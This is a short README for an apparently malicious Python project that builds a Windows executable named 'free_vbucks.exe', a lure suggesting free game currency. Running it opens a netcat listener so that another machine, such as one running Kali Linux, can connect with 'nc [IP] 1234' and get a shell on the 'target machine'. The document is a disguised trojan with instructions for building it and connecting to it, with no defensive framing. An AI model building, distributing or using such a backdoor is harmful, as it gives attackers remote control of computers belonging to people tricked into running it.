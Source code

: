 Pre-requisites:
Have Python and cx_Freeze installed

How to install cx_Freeze:
run "pip install cx_Freeze" in your terminal

How it works:

1. Open your code editor (or cmd) and run "python setup.py build" in the terminal and a "Build" folder should be generated
2. Open the folder inside the "Build" folder and run "free_vbucks.exe" in your Windows system
3. Try "nc [your-windows-IP] 1234" on another machine (i.e. Kali Linux)
4. You should be able to spawn a shell on your target machine

(Only works for machines on the same local network as of now)

Note: The netcat will run and listen only one time each time you run the executable. To re-enable Netcat to listen for incoming connections, simply run the executable once more.
